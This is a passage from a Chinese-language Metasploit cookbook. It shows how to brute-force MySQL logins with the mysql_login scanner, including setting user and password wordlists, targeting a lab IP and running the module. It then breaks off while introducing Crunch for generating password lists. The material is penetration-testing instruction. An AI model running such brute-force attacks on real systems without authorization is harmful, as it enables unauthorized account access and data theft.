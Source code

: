 ## 它是如何工作的...

让我们讨论涉及一些额外输入的特定扫描器模块。`mysql_login`扫描器模块是一个暴力模块，它扫描目标上 MySQL 服务器的可用性，并尝试通过暴力攻击登录到数据库：

```
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > show options
Module options (auxiliary/scanner/mysql/mysql_login):
Name Current Setting Required Description
---- --------------- -------- -----------
BLANK_PASSWORDS true yes Try blank pas..
BRUTEFORCE_SPEED 5 yes How fast to..
PASSWORD no A specific password
PASS_FILE no File containing..
RHOSTS yes The target address.
RPORT 3306 yes The target port..
STOP_ON_SUCCESS false yes Stop guessing...
THREADS 1 yes The number of..
USERNAME no A specific user..
USERPASS_FILE no File containing..
USER_FILE no File containing..
VERBOSE true yes Whether to print.. 
```

正如您所看到的，我们可以传递许多不同的参数给这个模块。我们充分利用模块的功能，我们成功进行渗透测试的机会就越大。我们可以提供一个完整的用户名和密码列表，模块可以使用并尝试在目标机器上使用。

让我们向模块提供这些信息：

```
msf auxiliary(mysql_login) > set USER_FILE /users.txt
USER_FILE => /users.txt
msf auxiliary(mysql_login) > set PASS_FILE /pass.txt
PASS_FILE => /pass.txt 
```

现在我们准备使用暴力破解。最后一步将是选择目标并提供运行命令以执行该模块：

```
msf auxiliary(mysql_login) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf auxiliary(mysql_login) > run
[*] 192.168.56.101:3306 - Found remote MySQL version 5.0.51a
[*] 192.168.56.101:3306 Trying username:'administrator' with password:'' 
```

输出显示，该模块首先查找目标上是否存在 MySQL 服务器来启动进程。一旦找到，它就开始尝试使用外部文本文件中提供的用户名和密码组合。这也是当前情况下 Metasploit 最广泛使用的模块操作之一。已经开发了许多自动化暴力破解模块来破解弱密码。

## 还有更多...

让我们通过 Metasploit 快速简单地生成密码文件的方法。在暴力渗透测试期间，拥有一个体面的密码文件列表可能会有所帮助。

### 使用"Crunch"生成密码

对于任何暴力破解攻击，我们都必须拥有一个可观的密码文件列表，这些列表将在此类攻击中使用。密码列表可以从在线资源获取，或者渗透测试人员可以选择使用 John The Ripper 生成密码列表。或者，也可以使用 Backtrack 的"crunch"实用程序基于正在使用的字符生成此类列表。您可以在`/pentest/passwords/crunch`中找到"crunch"实用程序。如果在您的 Backtrack 版本中缺少它，则可以通过在终端窗口中传递以下命令来安装它：
